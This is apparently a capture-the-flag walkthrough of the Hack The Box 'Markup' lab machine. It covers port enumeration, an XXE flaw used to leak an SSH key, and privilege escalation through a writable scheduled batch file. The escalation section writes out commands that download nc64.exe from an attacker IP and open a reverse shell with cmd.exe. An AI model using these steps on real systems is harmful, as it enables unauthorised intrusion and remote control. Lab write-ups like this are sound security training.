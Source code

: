 # Starting Point - Markup

## Enumeration

```
rustscan 10.10.10.49 -- -sC -sV -o port_scan

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack
```

### Examine Port 80 - Apache Server

![](pics/login.png)

When accessing the open port 80 via a browser, we can see a login page. In the previous machine (Included), we found the credentials `Daniel:>SNDv*2wzLWf` stored in a SQL dump. Using them, we can successfully login and we are redirected to the application's website, which seems to be some kind of online store / delivery service.
![](pics/delivery.png)

The website provides several functionalities, one of which is for submitting orders. 

![](pics/order.png)

When submitting an order (with test data), and intercepting the request with Burpsuite, we can see that the content is XML.

![](pics/burp-order.png)

There is a good chance of an XXE (XML External Entity) vulnerability. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Let's try it:

![](pics/xxe_proof.png)

Perfect! It works.

Now what can we do? We know that there is an open SSH port. And we also know that `Daniel` is a valid user. Maybe we can leak the private SSH key and use it to connect to the server.

![](pics/ssh_key_leak.png)

Using this key as the identitfier for the ssh connection we get access to the machine!

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>whoami
markup\daniel
```

## Exploitation

Enumerating the system, reveals a script named `job.bat` which is located in the `C:\Log-Management` directory:

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

Looking at the permissions, we see that the group `BUILTIN\Users` has full control (F) over the file. This also includes our current user daniel.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The idea is to replace the current code with a reverse shell, which will then be executed by an administrator (similar to cron jobs on unix). But therefore, we first must upload the nc.exe so that we can establish a reverse shell.

```
curl http://10.10.14.15/nc64.exe -o C:\Log-Management\nc64.exe

echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat
```

Now we wait and eventually receive a root-shell:

![](pics/rootshell.png)

Final step is to obtain the root flag: `f57[redacted]0f8`
